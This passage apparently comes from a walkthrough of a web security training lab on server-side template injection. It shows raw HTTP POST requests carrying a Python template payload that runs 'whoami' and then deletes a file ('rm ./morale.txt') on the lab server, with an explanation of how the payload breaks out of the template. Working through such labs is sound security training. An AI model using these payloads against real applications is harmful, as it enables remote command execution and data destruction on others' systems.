 So we modify the req by adding the following:
```bash
}}{% import os %}{{os.system('whoami')}}
```
and the req becomes:
```bash
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0add004904b44737974520be00570043.web-security-academy.net
Cookie: session=LoSWdD6AbEu9H4qpnbirrCUODHJCuiNX
...

blog-post-author-display=user.name }}{% import os %}{{os.system('whoami')}}&csrf=kAd7ZGpiVCystXK4dfO7BMTtWIk0uvLw
```
It is important to point out that the payload from hacktricks is prefixed with `}}` this is because on the server side we need to close the block that was opened before `user.name`, i.e. if on the server we have the template:
```bash
<p>
    <img src=... >
    {{ user.name }} | {{ comment.date }}
</p>
```
The `}}` that we prefixed the payload from hacktricks will actually close the block that is opened before `user.name` and the payload from hacktricks will open a new block.

And on the blog page where we previously saw the name of our author as `Peter Wiener | 13 January 202` after the req that we sent we now see: `carlos Peter Wiener0}}`, where `carlos` is actually our user because we ran `whoami` command

So we send the last req:
```bash
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0add004904b44737974520be00570043.web-security-academy.net
Cookie: session=LoSWdD6AbEu9H4qpnbirrCUODHJCuiNX
...

blog-post-author-display=user.name }}{% import os %}{{os.system('rm ./morale.txt')}}&csrf=kAd7ZGpiVCystXK4dfO7BMTtWIk0uvLw&csrf=kAd7ZGpiVCystXK4dfO7BMTtWIk0uvLw
```
And we have to refresh the page of the blog post (because when we refresh the page, the TE will evaluate the payload and will send a new html to us)

It's interesting how official lab's solution offers us to search for TI:
it tells us to modify the req body to the following:
`blog-post-author-display=user.name}}{{7*7}}`
and on the page where the username is displayed we see  `Peter Wiener49}} | ...`
This is because `7*7` was evaluated

### Read about the security implications
In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. The name of this section will vary, but it will usually outline all the potentially dangerous things that people should avoid doing with the template. This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.
